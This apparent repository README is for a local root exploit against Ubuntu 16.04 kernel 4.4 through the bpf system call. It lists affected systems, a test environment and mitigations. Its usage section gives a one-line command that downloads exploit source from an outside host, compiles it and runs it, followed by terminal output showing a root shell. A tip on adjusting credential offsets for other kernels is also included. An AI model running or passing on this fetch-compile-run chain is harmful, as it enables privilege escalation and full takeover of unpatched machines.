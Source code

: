 # Ubuntu16.04-0day

### 漏洞范围： all 4.4 ubuntu aws instances are vulnerable

### 漏洞测试环境
```
➜  ~ id

uid=1002(test) gid=1002(test) groups=1002(test)

➜  ~ lsb_release -a                  

Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.3 LTS
Release:	16.04
Codename:	xenial

➜  ~ uname -a

Linux ubuntu 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

➜  ~ 

```
### 参考解决方案
```
通过修改内核参数限制普通用户使用bpf(BPF_PROG_LOAD)系统调用

echo 1 > /proc/sys/kernel/unprivileged_bpf_disabled
__________________________________________________________________________________________________

echo "deb http://archive.ubuntu.com/ubuntu/  xenial-proposed restricted main multiverse universe" > /etc/apt/sources.list

apt update 

apt install linux-image-4.4.0-117-generic

reboot

```

[![asciicast](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW.png)](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW)


## Use-Age:

```

wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned 

```

### upstream44.c

```

sha256sum b71b2317c2f2461f0c25a650c9c6a4dd2399e5d7f800ec19822ba720a574030d

sha1sum d91b5dd8b074dd33bbb6994ab21af4e6279c9098

md5sum f38c046a22fd85e3aab3aa7ea4ef21a4

```

![](./0day.jpg)

```
$ id
uid=1002(test) gid=1002(test) groups=1002(test)

$ wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned
--2018-03-16 17:08:09--  http://cyseclabs.com/exploits/upstream44.c
Resolving cyseclabs.com (cyseclabs.com)... 58.96.20.9
Connecting to cyseclabs.com (cyseclabs.com)|58.96.20.9|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5776 (5.6K) [application/octet-stream]
Saving to: ‘/tmp/upstream44.c.1’

upstream44.c.1                                       100%[==========================================================================>]   5.64k  --.-KB/s    in 0s
2018-03-16 17:08:10 (186 MB/s) - ‘/tmp/upstream44.c.1’ saved [5776/5776]

task_struct = ffff880065821980
uidptr = ffff880034edbe04
spawning root shell

root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:kernel_t:s0

```
#### 注意 如果不同的内核调整CRED偏移量+检查内核堆栈大小



### 参考链接

https://twitter.com/vnik5287/status/974439706896187392

http://cyseclabs.com/exploits/upstream44.c

https://www.exploit-db.com/exploits/39772/

![](./1.jpg)

![](https://www.exploit-db.com/screenshots/idlt40000/screen-shot-2016-05-04-at-212446.png)
